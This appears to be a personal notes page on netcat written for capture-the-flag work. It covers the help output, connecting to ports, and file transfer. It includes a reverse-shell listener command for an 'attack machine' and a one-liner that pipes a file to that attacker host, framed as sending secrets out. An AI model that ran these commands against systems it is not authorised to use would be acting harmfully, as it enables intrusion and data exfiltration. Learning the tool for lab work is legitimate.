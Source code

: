 # netcat

There isn't much that netcat can't do. It allows different types of communication between devices, open shells on remove machines or something simple like get http from a server. I use it often to send and receive data between machines.

## Usage

Running `nc -h` provided the following output:

```bash
OpenBSD netcat (Debian patchlevel 1.206-1ubuntu1)
usage: nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]
	  [-m minttl] [-O length] [-P proxy_username] [-p source_port]
	  [-q seconds] [-s source] [-T keyword] [-V rtable] [-W recvlimit] [-w timeout]
	  [-X proxy_protocol] [-x proxy_address[:port]] 	  [destination] [port]
	Command Summary:
		-4		Use IPv4
		-6		Use IPv6
		-b		Allow broadcast
		-C		Send CRLF as line-ending
		-D		Enable the debug socket option
		-d		Detach from stdin
		-F		Pass socket fd
		-h		This help text
		-I length	TCP receive buffer length
		-i interval	Delay interval for lines sent, ports scanned
		-k		Keep inbound sockets open for multiple connects
		-l		Listen mode, for inbound connects
		-M ttl		Outgoing TTL / Hop Limit
		-m minttl	Minimum incoming TTL / Hop Limit
		-N		Shutdown the network socket after EOF on stdin
		-n		Suppress name/port resolutions
		-O length	TCP send buffer length
		-P proxyuser	Username for proxy authentication
		-p port		Specify local port for remote connects
		-q secs		quit after EOF on stdin and delay of secs
		-r		Randomize remote ports
		-S		Enable the TCP MD5 signature option
		-s source	Local source address
		-T keyword	TOS value
		-t		Answer TELNET negotiation
		-U		Use UNIX domain socket
		-u		UDP mode
		-V rtable	Specify alternate routing table
		-v		Verbose
		-W recvlimit	Terminate after receiving a number of packets
		-w timeout	Timeout for connects and final net reads
		-X proto	Proxy protocol: "4", "5" (SOCKS) or "connect"
		-x addr[:port]	Specify proxy address and port
		-Z		DCCP mode
		-z		Zero-I/O mode [used for scanning]
	Port numbers can be individual or ranges: lo-hi [inclusive]
```

## Connecting

Now and then I'll use netcat to connect to a port on a machine. Usually this happens when I am trying to figure out what is running on the given port. As an example, I am going to connect to the machine at 10.10.1.1 on port 1337. The syntax is very simple:

`nc 10.10.1.1 1337`

From here you can start typing to see how the port handles the message. It varies based on what is listening on that port.

## Listening

This is by far the most common use I have for netcat. I will list on my attack machine so that I can get a reverse shell onto the machine I am attacking. Here is the syntax:

`nc -lvnp 4444`

Here is what the command is doing:

- The `-l` option tells netcat to listen.
- The `-v` option tells netcat to be in verbose mode.
- The `-n` option tells netcat to supress name/port resolutions.
- The `-p` option tells netcat what port to listen on. In this case 4444.

This will output something like the following:

`Listening on 0.0.0.0 4444`

When someone connects, the terminal reads something like the following:

`Connection received on 10.10.1.1 33032`

From here, I can generate a stable shell.

## Sending a File

Netcat has the ability to also send files between machines. I will show how to receive and send a file using netcat. The syntax is very easy. In this example I am sending the secrets.txt to my attack machine that has an ip address of 10.10.1.1.

### Receiver

I need to setup the receiver first. Here is the syntax:

`nc -lp 4444 -q 5 > output.txt < /dev/null`

Here is a explaination about the command:

- The `-l` option tells netcat to listen.
- The `-p` option tells netcat what port to listen on. In this case 4444.
- The `-q` option tells netcat to wait for 5 seconds after the EOF (end of file) is sent.
- The `> output.txt` will save the text from netcat into the output.txt file.
- The `< /dev/null` will send an EOF to the command since we don't want to provide any input from our side.

### Sender

The sending is even easier than the above command. Here is the syntax:

`cat output.txt | nc 10.10.1.1 4444`

Cat will grab the text in output.txt and send it to my attack machine on port 4444.

## POP3

Netcat is the tool I use when interacting with POP3. I have a write up that details interacting with [POP3](pop3.md) in my tools section. It covers the some of the more common scenarios that I have found during capture the flag events.

All the examples and interactions use netcat.
